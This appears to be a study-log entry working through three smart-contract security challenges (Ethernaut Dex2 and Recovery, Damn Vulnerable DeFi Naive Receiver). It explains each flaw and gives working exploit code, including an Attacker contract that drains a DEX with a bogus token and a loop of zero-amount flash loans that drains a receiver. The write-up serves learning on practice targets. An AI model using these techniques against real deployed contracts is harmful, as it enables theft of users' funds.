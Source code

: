 ## Day 21

### Ethernaut #23 Dex2

This is a similar to an exercise we did using Echidna, also an Ethernaut challenge called Dex.  The main contract DexTwo is a DEX or decentralized exhcnage.  The problem with the first challenge was in the ```getSwapAmount()``` method, so let's compare those from the two challenges.

```Java
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

Let's take a look at this function in the previous challenge: 

```Java
  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

The first challenge has an extra require statement: 

```Java
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

Without this staement we should be able to trade any tokens we want.  We will create a bogus coin, mint all the supply to ourselves and use this to drain the DEX.  Code to accomplish this is below.  

```Java
  contract Attacker{
      DexTwo immutable public dex;
      SwappableTokenTwo immutable junkcoin;
      address public token1;
      address public token2;

      constructor(address _dexAdd){
        dex = DexTwo(_dexAdd);
        junkcoin = new SwappableTokenTwo(_dexAdd, "junkcoin", "Junk", 1_000_000);
      }

      function attack() external {
        token1 = dex.token1();
        token2 = dex.token2();

        // add liquidity, so that DEx junkcoin balance is nonzero, we can't use dex.addLiqudity()
        junkcoin.transfer(address(dex), 100);

        // empty first coin
        junkcoin.approve(address(this), address(dex), 100);
        dex.swap(address(junkcoin), address(token1), 100);

        // now Dex has 200 junkcoins and 100 token2, so the swap ratio will be 1/2
        junkcoin.approve(address(this), address(dex), 200);
        dex.swap(address(junkcoin), address(token2), 200);
      }
  }
```

A few details should be metnioned.  We first create a new ERC20 token and mint some supply.  The minimum we need is 400 tokens. After the tokens are minted we need to transfer 100 tokens to the DEX. If we don't then we will get a divide by 0 error during ```getSwapAmount()```.   The DEX ```.addliquitidy()``` method cannot be used becuase it has the ```onlyOwner()``` modifier.  We will use the token's ```.tranfer()``` instead.  After this we can do a one for one swap for token1, then the DEX will have a balance of 200 junkcoins and we will need to send 200 junkcoins for 100 token2.  

### Ethernaut #17 (Recovery)

In this challenge the contract owner has created a token factory.  The tokens will take Ether as collateral and return tokens based on the colaterial sent.  There is no bonding curve.  The onwer sent 0.001 Ether to the contract.  The owner has forgotten the address of this contract and would like to get his Ether back.  Our objective is to retreive the 0.001 Ether.  Relevant parts of the contract are below.  

```Java
  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
```

The exploit lies in the ```destroy()``` method.  This is public, so anyone can call it, probably a bad idea. ```destroy()``` calls  ```selfdestruct()```.  ```selfdestruct()``` will destroy the contract and send the remaining balance to an address, all we have to do is specify our own address in a call to ```destroy()```.  


### Damn Vulnerable DeFi #2 Naive Receiver

This challenge is again on Flash Loan pools.  There is a pool (NaiveReceiverLenderPool) with 1000 ETH to loan out and for each borrow a fee of 1ETH is paid.  A user has deployed a contract (FlashLoanReceiver) to interact with the pool.  Our objective is to drain the user's contract (in one transaction if possible).  

Let's take a look at how Flash Loans are taken out in NaiveReceiverLenderPool.sol:  

```Java
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```

A user calls flashLoan() with the receiver, a token and, some data, and the amount to be borrowed.  As with most Flash Loans there is a check to make sure the loan was paid back at the end.  Now let's take a look at the receiver.  

```Java
    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

The only thing that looks suspicious to me is the unchecked ```amountToBeRepaid``` calculation, since there are no checks on these values there is some potential for over/underflow.  ```SafeTransferLib.safeTransferETH()``` is used in both the pool and the receiver, this will revert if too large of an amount is requested.  There is no check that the amount borrowed is greater than zero, so we could borrow 0 Ether 10 times and have drain the contract.  Another item of note is that the receiver pays back the amount from the function call, not checking if that was actually the amount received.  

Code doing this is shown below.  
```Javascript
        await pool.connect(player); 

        for (let i=0; i<10; i++) {
            await pool.flashLoan(receiver.address, pool.ETH(), 0, "0x");
        }
```